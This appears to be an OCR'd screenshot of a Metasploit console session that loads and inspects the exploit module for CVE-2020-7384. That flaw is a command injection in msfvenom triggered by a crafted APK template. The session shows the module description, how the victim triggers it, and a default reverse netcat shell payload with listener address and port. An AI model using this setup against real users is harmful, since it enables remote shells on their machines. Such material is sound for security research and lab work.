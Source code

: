 ```bash

       Name: Rapid7 Metasploit Framework msfvenom APK Template Command Injection
     Module: exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
   Platform: Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2020-10-29

Provided by:
  Justin Steven

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  msf.apk          yes       The APK file name

Payload information:
  Avoid: 5 characters

Description:
  This module exploits a command injection vulnerability in Metasploit 
  Framework's msfvenom payload generator when using a crafted APK file 
  as an Android payload template. Affects Metasploit Framework <= 
  6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this 
  module is a relatively empty yet valid-enough APK file. To trigger 
  the vulnerability, the victim user should do the following: msfvenom 
  -p android/<...> -x <crafted_file.apk>

References:
  https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md
  https://cvedetails.com/cve/CVE-2020-7384/

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**

```